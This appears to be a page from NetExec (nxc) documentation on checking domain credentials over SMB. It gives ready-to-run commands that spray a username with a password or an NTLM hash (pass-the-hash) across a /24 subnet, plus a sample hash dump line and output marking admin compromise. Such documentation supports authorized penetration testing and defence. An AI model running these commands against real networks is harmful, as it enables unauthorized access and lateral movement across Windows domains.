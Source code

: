 # Checking Credentials (Domain)

### Authentication

* Failed logins result in a \[-]
* Successful logins result in a \[+] Domain\Username:Password

{% hint style="info" %}
Code execution results in a (Pwn3d!) added after the login confirmation. With SMB protocol, most likely you compromised user is in the local administrators group.
{% endhint %}

```
    SMB         192.168.1.101    445    HOSTNAME          [+] DOMAIN\Username:Password (Pwn3d!)
```

The following checks will attempt authentication to the entire /24 though a single target may also be used.

### User/Password

```
#~ nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE'
```

### User/Hash

After obtaining credentials such as\
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::\
you can use both the full hash or just the nt hash (second half)

```
#~ nxc smb 192.168.1.0/24 -u UserNAme -H 'LM:NT'
#~ nxc smb 192.168.1.0/24 -u UserNAme -H 'NTHASH'
#~ nxc smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
#~ nxc smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'
```
